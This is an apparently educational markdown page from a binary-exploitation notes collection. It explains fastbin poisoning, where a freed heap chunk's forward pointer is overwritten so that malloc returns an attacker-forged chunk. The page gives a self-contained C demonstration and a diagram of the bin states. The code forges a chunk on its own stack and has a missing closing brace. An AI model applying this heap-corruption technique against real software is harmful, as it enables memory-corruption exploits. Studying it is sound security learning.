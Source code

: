 ```yaml
---
layout: default
title:
tags: 

---
```

After a chunk is freed, it is inserted inside a bin, but the pointer is available in the program. If the attacker has control of this pointer via [Use after free](./Use-after-free.md) or [Double_Free](Double_Free.md) they can modify the linked list structure in bins and insert their own forged chunks.

`gcc fake_chunk.c -o chall`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct fake_chunk {
    size_t prev_size;
    size_t size;
    struct fake_chunk *fd;
    struct fake_chunk *bk;
    char buf[10];
};

int main() {
    char *a = malloc(10);
    printf("a ptr : %p\n", a);

    struct fake_chunk chunk;
    printf("fake chunks addr %p\n", &chunk);
    chunk.size = 0x20;
    char *data = (char*)&chunk.fd;
    strcpy(data, "Attacker's data : Hacked");

    free(a);

    *((unsigned long long*)a) = (unsigned long long)&chunk;
    printf("Freed ptr a\na now points to %p which is equal to fake chunk %p\n", a, &chunk);

    char *b = malloc(10); // returns same ptr as a

    char *victim = malloc(10);
    printf("Allocate 2 more chunks\nb ptr (same chunks as a): %p\nvictim ptr : %p\n", b, victim );
    
    printf("%s\n", victim);

    return 0;
```



```
1. a is freed:
fastbin : head->a->tail

2. a's fd pointer is changed to point to 'fake chunk':
fastbin : head->a->fake chunks -> undefined 
(fd of fake chunk will be holding attacker's data)

3. malloc request:
fastbin :  head -> forged chunk -> undefind
a is returned

4. malloc request:
fastbin : head -> undefined [fake chunk is returned ]
```


- Another `malloc` request for the fast chunk in the same bin will result in a segmentation fault. 
- 